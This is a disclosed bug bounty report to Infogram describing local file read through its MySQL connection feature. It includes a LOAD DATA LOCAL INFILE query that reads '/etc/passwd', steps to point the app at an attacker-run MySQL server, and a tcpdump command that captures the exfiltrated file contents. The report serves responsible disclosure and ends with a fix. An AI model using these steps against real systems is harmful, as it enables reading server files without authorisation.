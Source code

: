 # LFI through the MySQL connection

## Report Details
- **Report ID**: 719875
- **URL**: https://hackerone.com/reports/719875
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-10-22T12:37:27.836Z
- **Disclosed**: 2019-11-12T12:33:57.212Z

## Reporter
- **Username**: muon4
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: infogram

## Vulnerability Information
Hello team!

I've found a way to read Infogram's server local files through the MySQL connection.
The problem is that you're using the `LOAD DATA LOCAL` feature with your MySQL client. This how an attacker can easily send server's local files to her/his database.

I've successfully readed the `/etc/passwd` and `/etc/hosts` files from your server.

### Steps to reproduce
- Login 
- Make a new infographic or navigate to the existing one
- Now add new MySQL connection under `data` section
- Set the value of the SQL SELECT statement to the following:

```
LOAD DATA LOCAL INFILE '/etc/passwd'
INTO TABLE asd.asd
FIELDS TERMINATED BY "\n"
```

- Fill other necessary information (IP address, port etc..)
- Now setup/install the "evil" MySQL server with the database/table called `asd` and other needed information. Point your MySQL connection from infogram app to this server.
- Listen network traffic of the "evil" MySQL server. If you are using tcpdump you can do wireshark readable file with this command `tcpdump -s 0 port 3306 -i eth0 -w infogramsteal.pcap`
- Now click `Create` in the infogram app
- Once you get an error message at infogram app stop the tcpdump and open it with wireshark

In wireshark/pcap you can see some main points. First is the **login request** where you can see that `LOAD DATA LOCAL` is set to the value `1` which is basicly same than `true`: 
{F614430}
Also, you can see the **Request Command Unknown** which basicly contains the value of the file `/etc/passwd`:
{F614431}

Disable the `LOAD DATA LOCAL` feature if possible.

If you need any information please let me know.

Cheers!

## Impact

Reading local files from the server

## Attachments
- LoadLocalData.png
- passwd.png
